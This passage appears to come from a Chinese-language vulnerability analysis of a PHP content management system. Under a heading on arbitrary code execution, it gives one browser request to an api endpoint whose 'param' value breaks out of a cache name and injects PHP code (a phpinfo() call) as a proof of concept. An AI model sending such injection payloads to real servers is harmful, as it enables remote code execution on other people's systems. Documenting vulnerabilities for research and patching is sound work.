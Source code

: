 ![image](img/74668a0b7c6b69162a45f3280f3e58db.png)

### 2、任意代码执行漏洞

auth 下面的分析的时候会说到怎么获取

浏览器输入：

```
http://0-sec.org/index.php?c=api&m=data2&auth=582f27d140497a9d8f048ca085b111df&param=action=cache%20name=MEMBER.1%27];phpinfo();$a=[%271 
```

![image](img/dede30eba69dec6612b2e4bb519590a1.png)

